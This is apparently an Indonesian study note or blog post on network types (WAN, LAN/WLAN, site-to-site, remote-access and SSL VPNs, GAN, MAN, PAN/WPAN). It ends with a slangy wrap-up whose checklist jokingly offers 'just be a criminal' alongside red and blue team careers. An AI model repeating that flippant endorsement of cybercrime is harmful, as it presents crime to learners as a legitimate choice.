WAN (Wide Area Network) sering disebut sebagai **Internet**. Ketika berurusan dengan peralatan jaringan, kita akan sering menemukan Alamat WAN dan Alamat LAN. Alamat WAN adalah alamat yang umumnya diakses oleh Internet. Meskipun begitu, WAN tidak terbatas pada Internet saja; WAN hanyalah sejumlah besar LAN yang terhubung bersama. Banyak perusahaan besar atau lembaga pemerintah akan memiliki "WAN Internal" (juga disebut Intranet, Jaringan Airgap, dll.).

Secara umum, cara utama kita mengidentifikasi apakah suatu jaringan adalah WAN adalah dengan menggunakan protokol routing khusus WAN seperti BGP dan jika skema IP yang digunakan tidak berada dalam RFC 1918 (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16).

## LAN / WLAN
LAN (Local Area Network) dan WLAN (Wireless Local Area Network) biasanya akan menetapkan Alamat IP yang ditunjuk untuk penggunaan lokal (RFC 1918, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16). Dalam beberapa kasus, seperti di beberapa kampus atau hotel, Anda mungkin mendapatkan Alamat IP yang bisa dirutekan (internet) saat bergabung dengan LAN mereka, tetapi itu jauh lebih jarang terjadi.

Tidak ada perbedaan mendasar antara LAN atau WLAN, selain kemampuan WLAN untuk mengirimkan data tanpa kabel. Ini terutama merupakan perbedaan dari segi keamanan.

## VPN
Ada tiga jenis utama `Virtual Private Networks` (VPN), tetapi ketiganya memiliki tujuan yang sama yaitu membuat pengguna merasa seolah-olah mereka terhubung ke jaringan yang berbeda.

#### Site-To-Site VPN
Baik klien maupun server adalah Perangkat Jaringan, biasanya **Router** atau **Firewall**, dan berbagi seluruh rentang jaringan. Ini paling umum digunakan untuk menghubungkan jaringan perusahaan bersama-sama melalui Internet, memungkinkan beberapa lokasi untuk berkomunikasi melalui Internet seolah-olah mereka berada di lokasi yang sama.

#### Remote Access VPN
Ini melibatkan komputer klien yang membuat antarmuka virtual yang berperilaku seolah-olah berada di jaringan klien. Hack The Box menggunakan **OpenVPN**, yang membuat Adaptor **TUN** sehingga kita bisa mengakses lab. Saat menganalisis VPN ini, bagian penting yang perlu dipertimbangkan adalah tabel routing yang dibuat saat bergabung dengan VPN. Jika VPN hanya membuat rute untuk jaringan tertentu (misalnya: 10.10.10.0/24), ini disebut Split-Tunnel VPN, artinya koneksi Internet tidak keluar dari VPN.

#### SSL VPN
Ini pada dasarnya adalah VPN yang dilakukan di dalam peramban web kita dan semakin umum digunakan karena peramban web semakin mampu melakukan apa saja. Biasanya ini akan mengalirkan aplikasi atau seluruh sesi desktop ke peramban web Anda.

## Book Terms

| Network Type                          | Definition                       |
| ------------------------------------- | -------------------------------- |
| Global Area Network (GAN)             | Global network (the Internet)    |
| Metropolitan Area Network (MAN)       | Regional network (multiple LANs) |
| Wireless Personal Area Network (WPAN) | Personal network (Bluetooth)     |

#### GAN
Jaringan global seperti Internet dikenal sebagai `Global Area Network`(GAN). Namun, Internet bukan satu-satunya jaringan komputer jenis ini. Perusahaan-perusahaan yang beroperasi secara internasional juga memiliki jaringan terisolasi yang mencakup beberapa WAN dan menghubungkan komputer perusahaan di seluruh dunia. GAN menggunakan infrastruktur serat kaca dari jaringan area luas dan menghubungkannya dengan kabel bawah laut internasional atau transmisi satelit.

#### MAN
`Metropolitan Area Network`(MAN) adalah jaringan telekomunikasi broadband yang menghubungkan beberapa LAN dalam jarak geografis yang dekat. Biasanya, MAN menghubungkan cabang-cabang perusahaan yang terhubung melalui leased line. Router berkinerja tinggi dan koneksi berbasis serat kaca digunakan, yang memungkinkan throughput data yang jauh lebih tinggi daripada Internet. Kecepatan transmisi antara dua node jarak jauh sebanding dengan komunikasi dalam LAN.

Operator jaringan yang beroperasi secara internasional menyediakan infrastruktur untuk MAN. Kota-kota yang terhubung sebagai Jaringan Area Metropolitan dapat diintegrasikan secara supra-regional dalam `Wide Area Networks` (WAN) dan secara internasional dalam `Global Area Networks`(GAN).

#### PAN / WPAN
Perangkat modern seperti smartphone, tablet, laptop, atau komputer desktop dapat dihubungkan secara ad-hoc untuk membentuk jaringan guna memungkinkan pertukaran data. Ini dapat dilakukan melalui kabel dalam bentuk Personal Area Network (PAN

Varian nirkabelnya, `Wireless Personal Area Network` (WPAN), didasarkan pada teknologi Bluetooth atau Wireless USB. Jaringan area pribadi nirkabel yang dibuat melalui Bluetooth disebut `Piconet`. `PAN` dan `WPAN` biasanya hanya mencakup beberapa meter dan oleh karena itu tidak cocok untuk menghubungkan perangkat di ruangan atau bahkan gedung yang terpisah.

Dalam konteks Internet of Things (IoT), `WPAN` digunakan untuk berkomunikasi, mengontrol, dan memantau aplikasi dengan kecepatan data rendah. Protokol seperti Insteon, Z-Wave, dan ZigBee secara khusus dirancang untuk rumah pintar dan otomatisasi rumah.


---

# Wrap it up
Hal yang lu baca di atas adalah sebagian yang gw pelajari dan gw ringkas sedemikian rupa biar lu paham dasar fundamentalnya, karena kayak yang udh di jelasin di atas, Cybersecurty itu adalah profesinal yang luas, jadi ga ada orang yang bisa semuanya dan maksa dirinya harus bisa semuanya, lu bisa coba buat mahamin distro dulu , disitu lu bakal lebih ngerti gimana sistem kita bekerja, ibarat lu coba mengerti tuhan dengan memahami apa yang tuhan buat, dan purpose mengapa mereka dibuat, Teknologi dibuat oleh manusia ,dan disitulah kelemahannya, Manusia itu tidak sempurna

jadi sebelum gw bahas hal yang lebih dalam lagi ,mungkin lu harus pilih di posisi mana yang pengen lu pilih sekarang
- [ ] **RED TEAM**
- [ ] **BLUE TEAM**
- [ ] **FUCK THAT JUST BE A CRIMINALS**


